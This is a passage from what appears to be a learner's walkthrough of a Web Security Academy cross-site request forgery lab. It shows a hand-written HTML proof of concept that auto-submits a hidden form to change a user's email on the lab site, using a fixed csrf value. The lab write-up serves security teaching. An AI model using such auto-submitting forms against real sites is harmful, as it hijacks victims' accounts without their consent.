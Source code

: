 ![Pasted image 20241002141636.png](../../../../IMAGES/Pasted%20image%2020241002141636.png)
Now, the bad request error does not appear, let's create an exploit for this vulnerability:

```html
<html>
    <body>
        <script>history.pushState('', '', '/')</script>
        <form action="https://0a2a0000044420138416a9c900d500de.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="jim&#64;hudson&#46;com" />
            <input type="hidden" name="csrf" value="1234" />
            <input type="submit" value="Submit request" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

As I lack Burp pro edition, I created my own payload from scratch, let's test it:
